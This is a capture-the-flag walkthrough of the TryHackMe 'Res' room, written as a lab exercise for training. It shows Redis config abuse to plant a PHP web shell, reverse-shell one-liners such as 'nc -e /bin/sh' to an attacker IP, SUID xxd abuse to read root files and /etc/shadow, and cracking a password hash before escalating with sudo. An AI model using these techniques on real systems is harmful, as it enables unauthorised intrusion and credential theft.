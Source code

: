 # TryHackMe-Res

> Abdullah Rizwan | 12:00 AM | 4th November ,2020

## NMAP

Run the scan for all ports 
```
Nmap scan report for 10.10.199.149
Host is up (0.17s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
6379/tcp open  redis   Redis key-value store 6.0.7


```

## PORT 6379

I used `https://book.hacktricks.xyz/pentesting/6379-pentesting-redis` to enumerate redis

`nc 10.10.199.149 6379`

Connect to the port using `netcat` and type `info` you'll get output like this

<img src="https://imgur.com/5hbIipH.png"/>

Now we need to use redis-cli client to interact with it more so install using `apt-get install redis-tools`

<img src="https://imgur.com/o4ciScd.png"/>

As you can see after installing the redis-cli we can interact with it 

Lets see if we can create a php page by changing directory to where apache fetches html pages and name the page to `redis.php` 
```
10.10.199.149:6379> config set dir /var/www/html
OK
10.10.199.149:6379> config set dbfilename redis.php
OK
10.10.199.149:6379> set test "<?php phpinfo(); ?>"
OK
10.10.199.149:6379> save
OK

```
<img src="https://imgur.com/Z1bKq16.png"/>

And it works so we can confirm that we can get a shell from this , now set a GET parameter that can inovoke system commands.

```
10.10.199.149:6379> set test "<?php system($_GET['command']); ?>"
OK
10.10.199.149:6379> save
OK
10.10.199.149:6379> 

```

<img src="https://imgur.com/gkUtH6O.png"/>

RCE exists so lets get a shell



`php -r '$sock=fsockopen("10.14.3.143",6666);exec("/bin/sh -i <&3 >&3 2>&3");'` - Didn't worked

`nc -e /bin/sh 10.14.3.143 6666` - Worked !

<img src="https://imgur.com/YVVAZeJ.png"/>

### User Flag
In `/home/vianka` We can find the user flag


### Root Flag

Now for the root flag by looing for `SUID` we see that `xxd` has an suid bit set so it can run as root by anyone
www-data@ubuntu:/$ find / -perm /4000 2>/dev/null 
/bin/ping
/bin/fusermount
/bin/mount
/bin/su
/bin/ping6
/bin/umount
/usr/bin/chfn
/usr/bin/xxd
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
www-data@ubuntu:/$ xxd /root/root.txt | xxd -r
thm{xxd_pr1v_escalat1on}

```
www-data@ubuntu:/$ find / -perm /4000 2>/dev/null 
/bin/ping
/bin/fusermount
/bin/mount
/bin/su
/bin/ping6
/bin/umount
/usr/bin/chfn
/usr/bin/xxd
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
www-data@ubuntu:/$ xxd /root/root.txt | xxd -r
thm{xxd_pr1v_escalat1on}

```
### Privilege Escalation 

We got the root flag without even being root but I love to find a way to get root so lets do that.We know that we can read almost anyting with `xxd` so lets try to read `/etc/shadow` and crack the user's hash 

`xxd /etc/shadow | xxd -r`

`vianka:$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0:18507:0:99999:7:::`

Run `johntheripper` on this hash

```
root@kali:~/TryHackMe/Easy/Res# john hash                        
Using default input encoding: UTF-8                                       
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes                                                                                              
Will run 4 OpenMP threads                                                                                                                           
Proceeding with single, rules:Single                                                                                                                
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 3 candidates buffered for the current salt, minimum 16 needed for performance.
Warning: Only 7 candidates buffered for the current salt, minimum 16 needed for performance.
Warning: Only 9 candidates buffered for the current salt, minimum 16 needed for performance.
Warning: Only 7 candidates buffered for the current salt, minimum 16 needed for performance. 
Warning: Only 11 candidates buffered for the current salt, minimum 16 needed for performance.
Warning: Only 8 candidates buffered for the current salt, minimum 16 needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any.
Warning: Only 6 candidates buffered for the current salt, minimum 16 needed for performance.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
beautiful1       (vianka)
1g 0:00:00:04 DONE 2/3 (2020-11-04 01:25) 0.2183g/s 2533p/s 2533c/s 2533C/s maryjane1..cookies1
Use the "--show" option to display all of the cracked passwords reliably

```
Now login with `vinanka`

```
www-data@ubuntu:/$ su vianka
Password: 
vianka@ubuntu:/$ sudo -l
[sudo] password for vianka: 
Matching Defaults entries for vianka on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User vianka may run the following commands on ubuntu:
    (ALL : ALL) ALL
vianka@ubuntu:/$ sudo bash
root@ubuntu:/# 

```

We are root !